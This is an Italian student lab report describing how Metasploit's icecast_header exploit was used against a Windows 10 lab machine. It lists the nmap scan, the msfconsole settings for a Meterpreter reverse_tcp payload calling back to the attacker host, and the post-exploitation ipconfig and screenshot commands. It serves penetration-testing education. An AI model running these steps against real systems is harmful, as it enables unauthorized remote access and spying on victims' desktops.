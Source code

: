# 📝 Consegna S7/L4
# Utilizzo di Metasploit per sfruttare Icecast su Windows 10

## 📝 **Introduzione**
Questa relazione documenta l'uso di Metasploit per ottenere una sessione **Meterpreter** su un sistema Windows 10 vulnerabile con Icecast in esecuzione. L'obiettivo era sfruttare una vulnerabilità nota di Icecast per:

- 📍 Identificare l'indirizzo IP della vittima.
- 🖼️ Acquisire uno screenshot del desktop della vittima.

## 🛠️ **Setup dell'ambiente**

- **Macchina attaccante:** Kali Linux  
  - **IP:** `192.168.50.165`
- **Macchina vittima:** Windows 10 con Icecast in esecuzione  
  - **IP:** `192.168.50.6`
- **Strumenti utilizzati:** Metasploit Framework

## 🔍 **Analisi e Preparazione**
Prima di iniziare l'attacco, ho verificato che il servizio Icecast fosse attivo sulla macchina Windows:

1. Ho avviato Icecast sulla macchina Windows, confermando che fosse in ascolto sulla porta predefinita `8000`.
2. Con un rapido **Nmap**, ho controllato che la porta fosse effettivamente aperta:
   ```bash
   nmap -p 8000 192.168.50.6
   ```
   - Risultato: la porta era aperta e il servizio Icecast attivo.

## ⚙️ **Esecuzione dell'attacco**

1. **Avvio di Metasploit**
   Ho avviato il framework Metasploit sulla macchina Kali con il comando:
   ```bash
   msfconsole
   ```

2. **Caricamento dell'exploit**
   Ho scelto l'exploit `icecast_header` specifico per Icecast:
   ```bash
   use exploit/windows/http/icecast_header
   ```

3. **Configurazione dei parametri**
   Ho configurato le seguenti opzioni per l'attacco:
   ```bash
   set RHOSTS 192.168.50.6
   set RPORT 8000
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.50.165
   set LPORT 4444
   ```

4. **Lancio dell'exploit**
   Dopo aver verificato le configurazioni con `show options`, ho eseguito l'exploit:
   ```bash
   exploit
   ```
   - **Risultato:** Sessione Meterpreter aperta con successo!

## 🎯 **Obiettivi raggiunti**

1. **Identificazione dell'indirizzo IP**
   Ho utilizzato il comando `ipconfig` nella sessione Meterpreter per visualizzare l'indirizzo IP della vittima:
   ```bash
   ipconfig
   ```
   - **Output:** Mostrava l'indirizzo IP della vittima `192.168.50.6`.

2. **Acquisizione dello screenshot**
   Per ottenere un'immagine del desktop della vittima, ho eseguito:
   ```bash
   screenshot
   ```
   - **Risultato:** Lo screenshot è stato salvato con successo sulla macchina attaccante.

   ![Screenshot Desktop](./MeterpreterWin10.png)

## 🚀 **Conclusioni**

La combinazione di analisi, configurazione accurata e utilizzo degli strumenti giusti ha reso possibile il successo dell'attacco. 
Questo esercizio dimostra quanto sia cruciale mantenere aggiornati i sistemi per prevenire vulnerabilità note. Come aspirante Ethical Hacker, continuo a rafforzare le mie competenze per identificare e mitigare tali rischi.
Questo esercizio mi ha permesso di comprendere meglio:

- 🕵️‍♂️ L'importanza della ricognizione e della preparazione prima di eseguire un exploit.
- 🔒 Le implicazioni di sicurezza di servizi non aggiornati come Icecast.
- 🛡️ La necessità di un approccio etico nell'uso di strumenti potenti come Metasploit.


---
**Autore:** Sebastiano  
**Data:** 19 dicembre 2024

